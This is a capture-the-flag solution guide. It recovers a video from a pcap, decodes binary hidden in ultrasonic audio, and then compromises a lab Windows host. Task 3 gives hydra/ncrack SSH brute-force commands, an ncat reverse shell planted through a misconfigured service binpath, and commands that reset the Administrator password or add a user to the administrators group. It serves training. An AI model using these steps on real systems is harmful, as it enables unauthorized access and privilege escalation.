# Can't You Hear Me Knocking

_Solution Guide_

## Overview

This challenge involves recovering a video from a pcap file, then decoding a message hidden in it and finally exploiting a machine to gain access.

## Task 1: Recover video from pcap

1. Open the pcap file in Wireshark.
2. Filter by udp since you're looking for a streaming video.
3. Statistics - Conversations may help find the transfer: **conversations > UDP** tab, sort on **Bytes** or **Packets** column. There is a 15MB transfer between 2 IP addresses on port 1099.



4. Filter on **udp.port==1099**, you can see that the first packet sent is a matroska (MKV Video) file.



5. Right click on any packet and select **Follow > TCP Stream**.
6. Change the **Show data as** dropdown to **Raw**, then Save as **Any Name**.mkv.
7. you can view the view the video to ensure it is the file you're looking for.



## Task 2: Separate the audio from the video and examine

1. In **VLC MEDIA PLAYER** select **Media > Convert / Save** and in the next menu drag the video into the window and select **Convert / Save**.
2. On the next screen we want to capture an uncompressed audio format, so select the **Audio - FLAC** Profile, choose a filename.flac and press **Start**.
3. Open the resultant file in **Audacity**.
4. If you look ar the waveform display you will notice there are a series of loudness spikes at regular intervals.  



5. You can also open the spectrograph view and it will show the spikes are a much higher frequency tone than the rest of the audio in the file (examining the frequency analysis shows it at a range beyond the human hearing range >20k hz).



6. Zooming in on the spikes shows they are in intervals of 8 spikes, with a gap in between each group.  This should clue you in that it's binary. 
7. Using the left and right channels to determine 0/1 (top/bottom in the display) will give the following binary string:
**01010100 01101111 01101011 01100101 01101110 00100000 01100001 01110100 00100000 00110001 00110000 00101110 00110101 00101110 00110101 00101110 00110001 00110000 00110001 00100000 01100001 01100011 01100011 01100101 01110011 01110011 00100000 01100110 01110010 01101111 01101101 00100000 00110001 00110000 00101110 00110101 00101110 00110101 00101110 00110110 00110101**

8. Converting this string to text reveals the secret message:



## Task 3: Access the machine and exploit

1. Change the analyst IP to 10.5.5.65.
2. Running an nmap scan against 10.5.5.101 reveals a few services running on open ports: 



3. You'll need to crack the username and password with the supplied wordlist.
4. I'll be cracking the ssh login:
```
hydra -L /home/user/Desktop/wordlist.txt -P /home/user/Desktop/wordlist.txt 10.5.5.101 ssh
```
or
```
ncrack -U /home/user/Desktop/wordlist.txt -P /home/user/Desktop/wordlist.txt 10.5.5.101:22
```
5. Once the ability to login is obtained, you will see there is a token file at C:\token\token\.  This folder is also a network share.  However, you do not have access to the file.
6. The next step will be privilege escalating to an admin account to get the token.
7. You can use the rdesktop app to remote into the machine.
8. Once logged in open a command prompt and use the **Sysinternals AccessCheck** app located in c:\Program Data\chocolatey\bin\ to find an unsecured service.



9. Open a **netcat** listener **on the kali machine** (I'm using port 99):
```
nc -klp 99
```
10. On the **Windows machine** in your command prompt, point the service to open a reverse shell:
```
sc config service2 binpath="C:\Program Files (x86)\Nmap\ncat.exe 10.5.5.65 99 --exec cmd.exe"
```
11. Start the service:
```
net start service2
```
This will give you a command prompt in the terminal the netcat listener is running in.  However, the service will time out so you need to work quickly:



12. In the reverse shell, you can either reset the **Administrator** account password:
```
net user Administrator NewPass
```



Alternatively, you can add the spokesman account to the administrators group:
```
net localgroup Administrators spokesman /add
```
13. Now that you have an administrator access, you can ssh in with the credentials and access the token file: 


